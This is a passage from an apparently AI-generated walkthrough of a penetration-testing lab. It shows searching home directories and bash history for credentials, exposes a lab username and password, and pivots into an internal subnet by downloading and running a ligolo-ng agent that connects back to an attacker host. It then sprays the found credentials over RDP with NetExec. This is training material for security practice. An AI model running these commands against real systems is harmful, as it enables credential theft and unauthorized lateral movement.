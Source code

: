 ### Immediate local triage
```bash
# Fast wins
grep -riE 'pass|cred|key|pw|secret' /home/ 2>/dev/null
# Or inspect bash history quickly
sed -n '1,200p' ~/.bash_history
```
Expect a one-liner revealing **sshpass** to `FILE01` (e.g., `hwilliam:dealer-screwed-gym1`). fileciteturn0file0

---

## Pivoting via ligolo-ng
### Prep proxy & agent
```bash
# On attacker
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
tar -xzf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
sudo ./proxy -selfcert

# Serve agent
python3 -m http.server 8000

# On DMZ01
wget http://10.10.15.81:8000/agent
chmod +x agent
./agent -connect 10.10.15.81:11601 --ignore-cert
```
In the proxy console:
```text
session            # select DMZ01 agent
autoroute          # add 172.16.119.13/24, create iface, start tunnel
```
You now reach the internal subnet from attacker host.

---

## Spray Internal Services
Create a quick host list and test the found creds:
```bash
cat > hosts <<'EOF'
172.16.119.13
172.16.119.7
172.16.119.10
172.16.119.11
EOF

# RDP (NetExec)
nxc rdp hosts -u hwilliam -p 'dealer-screwed-gym1'
# Expect success on JUMP01 at least
```
RDP in and **share a working folder**:
```bash
xfreerdp /v:172.16.119.7 /u:hwilliam /p:'dealer-screwed-gym1' \
  /dynamic-resolution /drive:linux,.
```
---
